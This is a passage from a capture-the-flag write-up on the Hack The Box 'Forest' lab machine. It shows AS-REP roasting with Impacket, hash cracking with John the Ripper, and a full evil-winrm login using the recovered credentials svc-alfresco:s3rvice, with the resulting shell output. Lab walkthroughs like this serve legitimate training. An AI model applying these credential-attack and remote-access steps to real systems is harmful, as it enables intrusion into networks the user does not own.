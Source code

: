 Now that we have a few possible users, lets try Impacket's tool GetNPUsers to see if we can grab any hashes:

![impacket.png](../assets/forest_assets/impacket.png)

Nice! Lets go ahead and add this hash to a file named hash.txt and see if we can crack it using JohnTheRipper:

![jtr.png](../assets/forest_assets/jtr.png)

Awesome, looks like we have some valid creds- svc-alfresco:s3rvice. Lets see if we can login using these. For this I will try using evil-winrm first:

```text
┌──(ryan㉿kali)-[~/HTB/Forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> hostname
FOREST
```
